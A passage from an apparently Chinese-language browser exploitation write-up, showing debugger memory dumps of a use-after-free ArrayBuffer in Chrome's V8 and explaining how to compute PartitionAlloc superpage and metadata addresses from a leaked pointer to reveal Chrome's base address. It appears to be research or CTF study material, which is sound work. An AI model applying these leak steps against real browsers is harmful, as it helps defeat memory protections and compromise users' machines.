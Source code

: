 ```
uaf ArrayBuffer:

pwndbg> x/20gx 0x3e56080a2be5-1
0x3e56080a2be4:	0x080406e908280dc9	0x00000008080406e9
0x3e56080a2bf4:	0xeee0401000000000	0xa1a4d480000034d2
0x3e56080a2c04:	0x000000020000010b	0x0000000000000000
0x3e56080a2c14:	0x0000000000000000	0x0000001008040489
0x3e56080a2c24:	0x0000747474747474	0x080406e908281ac1
0x3e56080a2c34:	0x080a2be5080411a9	0x0000000000000000
0x3e56080a2c44:	0x0000000000000008	0x0000000000000001
0x3e56080a2c54:	0x000034d2eee04010 (backing store)	0x0000000000000000
0x3e56080a2c64:	0x0000000000000000	0x0804035d00000000
0x3e56080a2c74:	0x0000747474747474	0x080406e908280dc9

```
```
backing store:

pwndbg> x/10gx 0x000034d2eee04010
0x34d2eee04010:	0x0000747474747474	0x0000000000000000
0x34d2eee04020:	0x3040e0eed2340000	0x0000000000000000
0x34d2eee04030:	0x4040e0eed2340000	0x0000000000000000
0x34d2eee04040:	0x5040e0eed2340000	0x0000000000000000
0x34d2eee04050:	0x6040e0eed2340000	0x0000000000000000
```

#### PartitionAlloc Exploitation



super page布局
```
| Guard page (4KB) | Metadata page (4KB) | Guard pages (8KB) | Slot span | Slot span | ... | Slot span | Guard page (4KB) |

0x0000205284e00000 0x0000205284e01000 ---p  // Guard page (4KB)
0x0000205284e01000 0x0000205284e02000 rw-p  // Metadata page (4KB)
0x0000205284e02000 0x0000205284e04000 ---p  // Guard pages (8KB)
0x0000205284e04000 0x0000205284e18000 rw-p  // Slot span
0x0000205284e18000 0x0000205285000000 ---p  // Guard pages (4KB)
```
其中，metadata page中可以泄露chrome的基址。
之前在backing store中泄露的残留free块指针位于`Slot span`中, 
- 通过将该地址的末五位置0就可以得到 superpage的基地址。

- PartitionPage大小是0x4000，我们取出泄漏指针的末四位 >> 14就可以得到`PartitionPageIndex`

- PartitionPage基地址就是 `Index*0x4000 + superpage的基地址`

- MetadataArea的基地址就是 `superpage的基地址 + 0x1000`

- 当前的MetadataArea地址就是 `MetadataArea的基地址 + PartitionPageIndex * 0x20`

攻击链如下
![](https://upload-images.jianshu.io/upload_images/13348817-443b51848b33f1ab.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
